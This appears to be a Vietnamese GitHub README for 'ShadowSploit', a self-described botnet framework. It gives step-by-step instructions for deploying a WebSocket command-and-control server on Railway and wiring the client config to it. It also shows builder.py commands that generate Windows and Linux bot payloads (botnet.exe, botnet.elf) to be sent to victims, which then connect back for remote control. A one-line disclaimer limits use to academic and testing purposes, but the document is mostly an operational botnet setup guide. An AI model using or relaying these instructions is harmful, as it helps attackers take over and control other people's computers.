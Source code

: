 # ShadowSploit - **Botnet Framework**

## 🚀 **Giới thiệu**

**ShadowSploit** là một framework **botnet** mã nguồn mở được phát triển cho **Kali Linux** và **Windows**. Framework này cho phép bạn xây dựng và quản lý botnet dễ dàng qua **WebSocket C2 Server**. 

### 💡 **Lợi ích**:
- Quản lý botnet qua **giao thức WebSocket**.
- Dễ dàng triển khai và tùy chỉnh.
- Hỗ trợ cả **Windows** và **Linux**.

## 🔧 **Cài đặt**

Để sử dụng **ShadowSploit**, bạn cần cài đặt **Python 3.6 trở lên** và các thư viện cần thiết.

**Bước 1**: Cài đặt các thư viện yêu cầu:
```bash
pip install -r requirements.txt 
```
Bước 2: Clone repository về máy của bạn:
```bash
git clone https://github.com/shinsad0907/ShadowSploit.git
cd ShadowSploit
```
Bước 3: Tạo môi trường ảo (tuỳ chọn):
```bash
python3 -m venv venv
source venv/bin/activate   # Trên Linux / macOS
venv\Scripts\activate      # Trên Windows
```
Bước 4: Cài đặt các phụ thuộc:
```bash
pip install -r requirements.txt
```

🌐 Chạy WebSocket C2 Server trên Railway
Tạo và Cấu Hình Server trên Railway
ShadowSploit có thể dễ dàng triển khai WebSocket C2 Server trên Railway để phục vụ botnet của bạn. Dưới đây là các bước chi tiết để cấu hình và triển khai server trên Railway.

Bước 1: Tạo tài khoản Railway
Đầu tiên, bạn cần đăng ký tài khoản tại Railway.

Bước 2: Tạo một Project Mới trên Railway
Đăng nhập vào Railway.
Nhấn vào nút "New Project".
Chọn "Deploy from GitHub" để kết nối tài khoản GitHub của bạn với Railway.
Tìm kiếm và chọn repository của bạn, nơi bạn đã lưu mã nguồn của ShadowSploit.
Nhấn "Deploy".
Bước 3: Cấu hình môi trường cho server
Sau khi kết nối với repository, Railway sẽ tự động nhận diện mã nguồn của bạn. Tiếp theo, bạn cần cấu hình các biến môi trường để WebSocket C2 Server hoạt động chính xác.

Chọn "Settings" từ thanh menu của dự án trên Railway.
Thêm các biến môi trường sau (nếu cần thiết):
HOST: Địa chỉ IP của server (thường sẽ là 0.0.0.0 đối với Railway).
PORT: Cổng mà WebSocket server sẽ lắng nghe, ví dụ 8080.
Bước 4: Cấu hình tệp Procfile
Đảm bảo rằng bạn có một tệp Procfile trong repository của mình. Tệp này sẽ chỉ dẫn Railway cách chạy ứng dụng của bạn.

Ví dụ về Procfile:
```bash
web: python server.py
```
Bước 5: Triển khai Server
Sau khi cấu hình các biến môi trường và tệp Procfile, nhấn "Deploy" để triển khai server lên Railway. Quá trình triển khai sẽ tự động bắt đầu.

Bước 6: Truy cập URL của Server
Sau khi server được triển khai thành công, Railway sẽ cung cấp cho bạn một URL mà bạn có thể sử dụng để kết nối bot của mình tới WebSocket server.

URL của server sẽ có dạng:
```bash
https://your-project-name.up.railway.app
```
Lưu ý: Bạn có thể thay thế your-project-name bằng tên dự án thực tế của bạn trên Railway.

🔌 Liên kết WebSocket C2 Server với ShadowSploit
Bước 1: Cập nhật cấu hình WebSocket Server trong ShadowSploit
Sau khi bạn đã triển khai WebSocket C2 server trên Railway và nhận được URL của server, bạn cần cấu hình ShadowSploit để kết nối đến server này.

1. Mở file cấu hình config.json trong repository ShadowSploit.
2. Thêm hoặc cập nhật các thông tin sau:
```bash
{
  "C2_SERVER_URL": "https://your-project-name.up.railway.app",
  "C2_SERVER_PORT": "8080"
}
```
- C2_SERVER_URL: Đặt là URL bạn đã nhận được từ Railway.
- C2_SERVER_PORT: Cổng mà server WebSocket đang lắng nghe (ví dụ: 8080).

Bước 2: Khởi động WebSocket C2 Client
Sau khi cấu hình xong, bạn có thể khởi động bot của mình để kết nối đến WebSocket C2 server.
```bash
python3 client.py
```

🖥️ Cách sử dụng
Chạy WebSocket Server
Sau khi cài đặt xong, bạn cần chạy WebSocket C2 Server để có thể điều khiển botnet:
```bash
python3 server.py
```
Server này sẽ lắng nghe kết nối từ các bot.

Tạo Payload cho Windows hoặc Linux
Để tạo payload cho các bot, bạn có thể sử dụng builder.py. Chạy lệnh sau để tạo payload tương ứng với hệ điều hành:

Payload cho Windows:
```bash
python3 builder.py --payload windows --host 192.168.1.100 --port 8080 --output botnet.exe
```
Payload cho Linux:
```bash
python3 builder.py --payload linux --host 192.168.1.100 --port 8080 --output botnet.elf
```
Kết nối Bot với Server
Sau khi tạo payload và gửi cho các bot, chúng sẽ tự động kết nối với WebSocket Server bạn đã khởi động ở bước trước. Bạn có thể bắt đầu điều khiển chúng thông qua server này.

🔐 Lưu ý
⚠️ ShadowSploit chỉ nên được sử dụng cho các mục đích học thuật và kiểm tra bảo mật.

Không sử dụng cho các hoạt động tấn công bất hợp pháp hoặc xâm nhập vào hệ thống không được phép.

🔗 Tải về Cấu hình Server C2 từ Repository
Nếu bạn muốn sử dụng cấu hình WebSocket C2 Server đã được cấu hình sẵn, bạn có thể tải về từ repository sau:

- ShadowSploit C2 Server Configuration
Trong repository này, bạn sẽ tìm thấy toàn bộ cấu hình sẵn của WebSocket C2 Server đã được cấu hình để triển khai trên Railway và các hướng dẫn chi tiết về cách sử dụng.

Cách tải về và triển khai từ cấu hình sẵn:
1. Truy cập vào repo cấu hình C2.
2. Clone repository về máy của bạn:
```bash
git clone https://github.com/shinsad0907/ShadowSploit-c2-setup.git
cd ShadowSploit-c2-setup
```
3. Lưu ý rằng repository này đã chứa toàn bộ cấu hình cho Railway. Bạn chỉ cần tải về và triển khai trên Railway theo hướng dẫn dưới đây.
🧑‍💻 Liên hệ
Nếu bạn gặp khó khăn khi sử dụng ShadowSploit, vui lòng mở Issue trên GitHub hoặc gửi email cho chúng tôi tại: youremail@example.com.

Tham gia cộng đồng: GitHub Repository



